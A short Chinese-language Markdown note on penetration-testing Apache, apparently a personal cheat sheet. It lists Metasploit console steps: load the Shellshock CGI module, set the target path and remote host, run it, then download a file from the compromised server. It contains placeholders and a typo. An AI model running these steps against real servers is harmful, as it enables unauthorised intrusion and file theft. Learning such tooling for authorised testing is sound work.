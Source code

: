 ## Apache渗透测试
### 1. 进入msfconsole, 查找apache_mod_cgi_bash_env_exec模块
~~~bash
msfconsole
# 使用上述模块
use modeId
# 配置cgi脚本路径
set targeturi /cgi-bin/bin
# 设置ip
set rhost IP
run

# 下载文件
downloadd fileName
~~~